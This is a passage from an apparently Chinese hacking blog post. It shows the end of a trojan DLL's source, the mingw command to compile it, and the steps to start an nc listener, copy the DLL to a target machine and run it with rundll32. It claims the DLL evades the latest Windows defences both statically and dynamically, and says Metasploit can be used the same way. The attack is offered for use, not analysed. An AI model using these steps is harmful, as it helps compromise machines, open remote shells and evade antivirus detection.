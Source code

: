```

    return TRUE;
    }
}
```
编译：
```
x86_64-w64-mingw32-g++ --shared muma.cpp -o muma.dll
```
![image.png](https://img-blog.csdnimg.cn/img_convert/24fa05555a28901727e4a0f188abfa09.png#averageHue=#080605&clientId=u722c5723-9e25-4&from=paste&height=632&id=ud78c572d&originHeight=632&originWidth=1187&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=259221&status=done&style=none&taskId=u7dd06e8d-f728-43d7-9872-aaaf7ef4ed4&title=&width=1187)
然后使用nc监听设置的端口，然后将dll文件传到靶机上
然后执行
```
rundll32.exe .\power.dll, HelloWorld
```
![image.png](https://img-blog.csdnimg.cn/img_convert/748d95fafa3cf2ac6e25196da76f67ee.png#averageHue=#100f0f&clientId=u722c5723-9e25-4&from=paste&height=1040&id=u4d9253f1&originHeight=1040&originWidth=1920&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=445338&status=done&style=none&taskId=ud35c0495-5517-4dd5-aaf1-be74617f1b0&title=&width=1920)
![image.png](https://img-blog.csdnimg.cn/img_convert/298b2ea8d5901739676367645e4fd9ba.png#averageHue=#070605&clientId=u722c5723-9e25-4&from=paste&height=583&id=ufeeed40f&originHeight=583&originWidth=795&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=168715&status=done&style=none&taskId=u16ee2522-3c7d-4d94-9fa1-b8914422846&title=&width=795)
能静态和动态过windows最新的防火墙
![image.png](https://img-blog.csdnimg.cn/img_convert/8d6a00c6f2e7eebb5df5fccdaf1b96cd.png#averageHue=#181b1d&clientId=u722c5723-9e25-4&from=paste&height=728&id=ua77950eb&originHeight=728&originWidth=1836&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=99734&status=done&style=none&taskId=u22a354d8-111f-41a0-be5a-490624c9b32&title=&width=1836)
![image.png](https://img-blog.csdnimg.cn/img_convert/4fa51723341b241816cb976d3b3ccd3a.png#averageHue=#fdfdfd&clientId=u722c5723-9e25-4&from=paste&height=450&id=ub3277120&originHeight=450&originWidth=1044&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=30269&status=done&style=none&taskId=u0c33ef57-59e4-4487-8e67-7cf7175166b&title=&width=1044)
如果要使用msf，操作和分离免杀的那个https差不多
举一反三举一反三举一反三

